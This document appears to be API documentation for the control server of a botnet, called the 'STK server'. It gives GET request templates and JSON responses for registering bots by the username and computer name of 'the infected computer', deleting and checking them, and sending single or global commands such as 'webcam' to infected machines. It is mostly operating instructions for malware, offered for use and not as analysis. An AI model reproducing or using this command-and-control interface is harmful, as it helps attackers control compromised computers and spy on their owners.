 `host`         This is ip of STK server  
`username`     This is you account username on STK server.  
`token`        This is you account token    on STK server.  
`bot_uuid`     This is randomly generated uuid  

###### CREATE BOT:
> `bot_username`     This is the username of the bot on the infected computer.  
> `bot_computername` This is the computername of the bot on the infected computer.  

**GET REQUEST:** _httр://host/api.php?profile=username&token=TOKEN&bot_uuid=BOT_UUID&bot_username=BOT_USERNAME&bot_computername=BOT_COMPUTERNAME&create_user_
```json
{
   "status":"Success",
   "message":"Bot 0d94a079-07dd-4409-a30d-a4f49bb33975 created!",
   "value":true
}
```

###### DELETE BOT:
> Delete bot from database and folder.

**GET REQUEST:** _httр://host/api.php?profile=PROFILE&token=TOKEN&bot_uuid=BOT_UUID&rmbot_
```json
{
   "status":"Success",
   "message":"Bot 0d94a079-07dd-4409-a30d-a4f49bb33975 removed!",
   "value":true
}
```

###### CHECK BOT:
**GET REQUEST:** _httр://host/api.php?profile=PROFILE&token=TOKEN&bot_uuid=BOT_UUID&check_user_
```json
{
   "status":"Success",
   "message":"User: 0d94a079-07dd-4409-a30d-a4f49bb33975 directory found",
   "value":true
}
```


###### SEND COMMAND TO BOT:
**GET REQUEST:** _httр://host/api.php?profile=PROFILE&token=TOKEN&bot_uuid=BOT_UUID&command=webcam&arguments="arg1", "arg2", "...."_
```json
{
   "status":"Success",
   "message":"Bot '0d94a079-07dd-4409-a30d-a4f49bb33975' received new local command 'webcam' with arguments '/"arg1/", /"arg2/", /"..../"'",
   "value":true
}
```

###### SEND GLOBAL COMMAND TO ALL BOTS:
**GET REQUEST:** _httр://host/api.php?profile=PROFILE&token=TOKEN&bot_uuid=BOT_UUID&global_command=webcam&arguments="arg1", "arg2", "...."_
```json
{
   "status":"Success",
   "message":"Bot '0d94a079-07dd-4409-a30d-a4f49bb33975' received new local command 'webcam' with arguments '/"arg1/", /"arg2/", /"..../"'",
   "value":true
}
```
